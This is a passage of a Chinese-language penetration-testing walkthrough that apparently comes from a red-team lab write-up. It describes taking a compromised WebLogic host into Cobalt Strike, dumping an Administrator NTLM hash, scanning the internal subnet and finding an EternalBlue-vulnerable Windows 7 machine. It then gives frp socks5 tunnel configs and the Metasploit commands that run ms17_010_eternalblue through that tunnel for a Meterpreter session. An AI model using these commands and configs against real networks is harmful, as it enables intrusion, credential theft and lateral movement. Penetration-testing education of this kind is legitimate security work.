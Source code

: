 由于当前机器无 AV 直接上 Powershell 上线到 CobaltStrike：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLCaiaiaC6g26bp1ibv7K0tVAAWqVcibgr7mYob5R2ibnCqCQHRx7MvTZoFng/640?wx_fmt=png)

  

**工作组下的内网渗透**

通过发现当前机器是有两个网卡，其中 10 是内网网卡，随后对当前机器进行抓密码：

```
WEBLOGIC\Administrator ccef208c6485269c20db2cad21734fe7
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLwSKxq5KpHMiaE9yeqTQ7dJoFP7gmY4664skjaxbYjgII0JCKvLLy7XA/640?wx_fmt=png)

由于当前是 Windows 2012 所以无法抓到明文，先留着，由于是工作组环境，先对其 C 段进行信息搜集看看存活：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLjeaj4fHd6Q0pFCxticltMZc6ZFDU84mWkbicLFib6SyfupPAXKtLiaenOg/640?wx_fmt=png)

发现内网有一台 Windows 7（10.10.20.7）应该是域机器。

通过 fscan 也扫描出来存在永恒之蓝：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL86ePzQqRN1OV5ibVVJ821BCk9ghzT0DJia1jCcibs063wU9icjicRvvvGibw/640?wx_fmt=png)

随后通过 Frp 建立一个 socks5 隧道，红队人员 VPS 配置文件 frps.ini，然后运行：

```
[common]
bind_addr =0.0.0.0
bind_port = 7000
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNL0RcXczhbW179uNFr1d5uTetsN6jrOkpsWm9qckooY0OfV994NDFI2A/640?wx_fmt=png)

之后来到目标跳板机器运行 frpc：

```
[common]
server_addr = 192.168.0.175
server_port = 7000
[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LL9icoGibyRCia9G4YJVeiazSNLn5WnQibzVgDFydjgiaAISNccrdU731JqfjFribe7uuepQiboxd79tJ38OQ/640?wx_fmt=png)

建立好 socks5 隧道后 Metasploit 对其利用拿到 Meterpreter 会话：

```
msf6 > setg Proxies socks5:192.168.0.175:7777
msf6 > setg ReverseAllowProxy true
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set payload windows/x64/meterpreter/bind_tcp
msf6 > set rhost 10.10.20.7
msf6 > run
```
